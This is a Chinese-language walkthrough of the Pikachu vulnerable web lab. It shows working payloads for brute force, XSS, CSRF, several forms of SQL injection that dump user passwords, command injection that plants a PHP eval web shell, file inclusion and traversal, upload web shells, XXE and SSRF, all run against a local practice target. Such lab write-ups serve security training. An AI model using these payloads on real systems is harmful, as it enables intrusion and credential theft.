

# pikachu靶场全解

环境配置和DVWA类似，都是新建数据库，然后修改config文件就可以了。


## 暴力破解

### 基于表单的暴力破解

这个直接抓包爆破就可以了，随便输入admin/password，然后进行抓包

然后发送到intruder模块中


添加payload位置，然后选择设置payload，导入密码字典进行攻击即可。


爆破出了真实的密码：


### 验证码绕过(on server)

发现只要页面不进行刷新，服务器端的验证码就不会进行更新。

所以输入某一次的正确的验证码，然后进行爆破即可。


### 验证码绕过(on client)

验证码在前端生成，而且观察代码发现并无发送至后端进行一些相关处理，所以直接禁用或者发送抓包即可。


### token防爆破

随便输入账号密码，然后抓包发现协议包里面多了一个token，然后是随机变化的，但是每一次变化的值都可以从上一次的响应包里面获取，所以也是可以进行爆破！

这里就加了token验证了，但是每一次爆破都会进行修改token，所以要用bp来获取每次报文的token进行爆破，具体操作如下：


还是intruder模块，攻击类型选择`Pitchfork`，添加两个payload位置，分别是password和token的位置。


然后payload1就是照常指定字典，或者其他的密码本，这里为了快速过，就输入几个密码了


然后在设置的Grep-Extract中进行勾选添加，


先获取响应，然后选中token的地方，最后点击确认。


然后就是设置payload2选择递归提取，然后复制首次的token进去


然后爆破就可以了


## Cross-Site Scripting

### 反射型xss(get)

经典alert

```
<script>alert('xss')</script>
```

但是前端做了输入长度的限制，所以直接F12查看元素，修改为比较大的数值再submit即可


然后就成功弹窗了。


### 反射型xss(POST)

没啥好说的，`admin/123456`登录进去还是一样的提交

```
<script>alert('xss')</script>
```

一样弹窗，只不过提交方式变为了POST而已

```
message=%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3E&submit=submit
```


### 存储型xss

还是一样，只不过可以持久性触发，提交之后每一次访问这个页面都会触发这个xss脚本

```
<script>alert(document.cookie);</script>
```

```
<script>alert(1)</script>
```


### DOM型xss

先随便输入点东西看看反应`pikachu`


清楚的看到了DOM发生了某种变化，那就直接交payload了

```
javascript:alert(1)
```

点击下面超链接就能够进行弹窗。


或者是

```
' onmouseover="alert(document.cookie)"
```

鼠标移过去就可以进行弹窗

### DOM型xss-x

还是一样随便输入点东西，然后发现生成了

`有些费尽心机想要忘记的事情,后来真的就忘掉了`

点击这个链接，发现又生成了一个新的`就让往事都随风,都随风吧`


那还是同上

```
javascript:alert(1)
```

点击两次链接就会弹窗了


### xss之盲打

需要配合使用，弹的是管理员那边的

还是随意提交xss代码

```

<script>alert(1)</script>
<button onclick=alert(1) >xss</button>
```


然后登录后台

```
http://127.0.0.1/vul/xss/xssblind/admin_login.php
```

然后就会有弹窗了！


### xss之过滤

过滤了`<script>`

那直接还有两种经典的方式进行

```

<button onclick=alert(1) >xss</button>
```

都是可以绕过过滤手段的。


### xss之htmlspecialchars

这个函数会对输入的东西进行转义

输入`<script>alert('xss')</script>`

会进行转义

```
<a href="<script>alert(" xss')&lt;="" script&gt;'="">&lt;script&gt;alert('xss')&lt;/script&gt;</a>
```


所以还是直接构造：

```
1'onclick='alert(1)'
```


提交点击后成功弹窗


### xss之href输出

还是和上面一样：

```
javascript:alert(1)
```

提交之后点击链接就能够弹窗了


### xss之js输出

随便输出，可以发现输入的东西进了script里面


所以直接构造输入

```
';alert(1);//
```

然后成功弹窗，实验成功！

提交之后的js代码变为：

```javascript
$ms='';alert(1);//';
```


## CSRF

### CSRF(get)

用户如下，密码都是`123456`：

```
vince/allen/kobe/grady/kevin/lucy/lili
```

bp里面有直接生成csrf的poc


修改抓包操作生成CSRF PoC

修改一下信息，然后浏览器测试复制链接进行访问


点击链接上的按钮，后台查看个人信息，发现已经修改成功了


### CSRF(post)

和get差不多

### CSRF Token

抓包看token，发现和暴力破解是一样的，token在上一次的响应包里


如下：


## SQL-Inject

### 数字型注入(post)

发现在post请求里面，抓包放重放器里头进行SQL注入，题目直接说了数字型注入，那就不用进行尝试了，直接搞里头。


判断列数：

```
id=3 order by 2
```


```
id=-3 union select 1,database()
```


然后接下来就是常规一流程操作：

查表

```
id=-3 union select 1,group_concat(table_name) from information_schema.tables where table_schema='pikachu'
```


查字段

```
id=-3 union select 1,group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'
```


查内容

```
id=-3 union select group_concat(username),group_concat(password) from users
```


### 字符型注入(get)

输入

```
1'
```


判断闭合符为`'`单引号

```
' or '1'='1
```

查询所有信息




然后还是一样，判断列数


爆破库名

```
-1' union select 1,database()#
```


后续操作同上，这里就不贴图了，直接放payload

```
id=-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='pikachu'#
```

```
id=-1' union select 1,group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'#
```

```
id=-1' union select group_concat(username),group_concat(password) from users#
```


### 搜索型注入

闭合符号为`%'`


判断列数：

```
1%' order by 3#
```

爆破库名：

```
-1%' union select 1,2,database()#
```

爆破表名：

```
-1%' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='pikachu'#
```

爆破字段名：

```
-1%' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'#
```

获取隐私字段信息：

```
-1%' union select 1,group_concat(username),group_concat(password) from users#
```


### xx型注入

闭合符号变成了`')`


判断列数：

```
-1') order by 2#
```

爆破库名：

```
-1') union select 1,database()#
```

爆破表名：

```
-1') union select 1,group_concat(table_name) from information_schema.tables where table_schema='pikachu'#
```

爆破字段名：

```
-1') union select 1,group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'#
```

获取隐私字段信息：

```
-1') union select group_concat(username),group_concat(password) from users#
```


### "Insert/update"注入（暂未）

`' and extractvalue(1,concat(0x7e,(database()))) and '1'='1`

### "delete"注入（暂未）

`57+or+updatexml(1,concat(0x7e,database()),0)`

### "http header"注入

抓取该页面的数据包,将user-agent的值改为单引号`'`, 页面显示报错信息代表此处存在注入

将user-agent的值改为`' or updatexml(1,concat(0x7e,database()),0) or '`

### 盲注(base on Boolean)

布尔盲注

```
1' and 1=1#
```

一个个字符进行爆破

```
1' and substr(database(),1,1)='p'#
```

然后也是一样的流程，库名，表名，字段名

### 盲注(base on time)

利用延时函数进行判断，不过感觉实际情况中干扰因素较多，可能会有误差

```
1' and sleep(3)#
```


```
1' and if((substr(database(),1,1))='p',sleep(3),null)#
```


### 宽字节注入

数据库编码与PHP编码为两个不同的编码


抓包修改：

判断列数：

```
-1%df' order by 2#
```

爆破库名：

```
-1%df' union select 1,database()#
```

爆破表名：

```
-1%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema='pikachu'#
```

爆破字段名：

```
-1%df' union select 1,group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'#
```

获取隐私字段信息：

```
-1%df'union select group_concat(username),group_concat(password) from users#
```


## RCE

### exec "ping"

```
127.0.0.1&&ls
```


上传一句话木马：

```
127.0.0.1 & echo "<?php @eval($_POST['cmd'])?>" > ./shell.php
```

蚁剑连接

或者直接

```
127.0.0.1 & echo "<?php @eval($_REQUEST[cmd])?>" > ./shell.php
```

访问

```
http://127.0.0.1/vul/rce/shell.php?cmd=phpinfo();
```


### exec "eval"

```
system("ls");
```


当然也是可以

```
phpinfo();
```


## File Inclusion

### File Inclusion(Local)

新建一个文件在fileinclude文件下，可以进行包含，当然也是可以包含其他文件的，乃至电脑上的任意文件

```
http://127.0.0.1/vul/fileinclude/fi_local.php?filename=../1.txt&submit=提交
```

在网站根目录之外一层新建一个flag.txt文件，也是可以进行包含的

```
http://127.0.0.1/vul/fileinclude/fi_local.php?filename=../../../../../flag.txt&submit=提交
```


### File Inclusion(remote)

远程包含，可以包含远程服务器上的文件也可以直接访问网页

```
http://127.0.0.1/vul/fileinclude/fi_remote.php?filename=http://www.baidu.com&submit=提交
```


## Unsafe Filedownload

本质上就是对用户输入的东西没有进行限制，导致可以任意下载

如下可以复制链接进行修改


都可以进行下载

```
http://127.0.0.1/vul/unsafedownload/execdownload.php?filename=../../../index.php
```

```
http://127.0.0.1/vul/unsafedownload/execdownload.php?filename=../../../flag.txt
```


## Unsafe Fileupload

### client check

静态检查，还是老样子，写一个一句话木马在`shell.php`文件中

```
<?php @eval($_POST['cmd'])?>
```

然后前端F12禁掉检查的代码函数，或者直接修改php文件可上传即可。


然后蚁剑连接即可

```
URL地址: http://127.0.0.1/vul/unsafeupload/uploads/shell.php
连接密码: cmd
```


### MIME type

很明显根据提示，上传之后进行抓包修改`MIME type`即可

```
Content-Type: image/jpeg
```

可以上传成功，显示保存路径

```
文件保存的路径为：uploads/shell.php
```

然后蚁剑连接即可

```
URL地址: http://127.0.0.1/vul/unsafeupload/uploads/shell.php
连接密码: cmd
```


### gerimagesize


## Over Permission

### 水平越权

提示中的几个账号如下：

```
lucy/123456,lili/123456,kobe/123456
```

随便登录一个


修改链接中的username即可无需他人密码实现访问他人的个人信息，实现水平越权。


### 垂直越权

垂直越权就是向上越权，普通用户可以完成超级用户才能执行的操作

- 超级用户：`admin/123456`
- 普通用户：`pikachu/000000`

这里直接用两个不同的浏览器进行访问进行模拟超级用户和普通用户


可以看到`admin`的权限要比`user`的权限要大，有添加用户这一功能

链接如下：

```
http://127.0.0.1/vul/overpermission/op2/op2_admin_edit.php
```

接下来让普通用户访问该链接，发现也是可以访问到的

随便输入信息进行创建用户验证


再使用登录了超级用户的浏览器进行查看用户列表，发现以及创造成功了，这就实现了垂直越权


## 目录遍历

### ../../

`flag.txt`放在网站根目录下，利用下面的构造进行目录遍历读取`flag.txt`

```
http://127.0.0.1/vul/dir/dir_list.php?title=../../../flag.txt
```


## 敏感信息泄露

### IcanseeyourABC


发现登录成功，链接如下

```
http://127.0.0.1/vul/infoleak/abc.php
```

尝试用另一个浏览器直接访问该链接，发现可以直接访问到


## PHP反序列化

一般来说反序列化漏洞要拿到源码才能进行构造，一些魔术方法需要慢慢琢磨

```php
<?php
class S{
	var $test="<script>alert(document.cookie)</script>";
}
 
$a=new S();
echo serialize($a)
?>
```

输入payload进行弹窗：

```
O:1:"S":1:{s:4:"test";s:39:"<script>alert(document.cookie)</script>";}
```


## XEE

payload如下

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
     <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini"> ]>
<a>&xxe;</a>
```


## URL重定向

### 不安全的URL跳转

还是一样，没有对前端传进来的值进行判断

```
http://127.0.0.1/vul/urlredirect/urlredirect.php?url=http://www.baidu.com
```

就能够进行重定向了


当然如果你确知某个目录下面有`flag.txt`也是可以通过这种方式去查看系统内的文件。

```
http://127.0.0.1/vul/urlredirect/urlredirect.php?url=../../../flag.txt
```


## SSRF

### SSRF(curl)

```
http://127.0.0.1/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1/vul/ssrf/ssrf_info/info1.php
```


所以是可以直接访问远程服务器上的木马

这个漏洞还可以读取服务器上的任意文件


### SSRF(file_get_content)

伪协议读取

```
http://127.0.0.1/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=ssrf.php
```


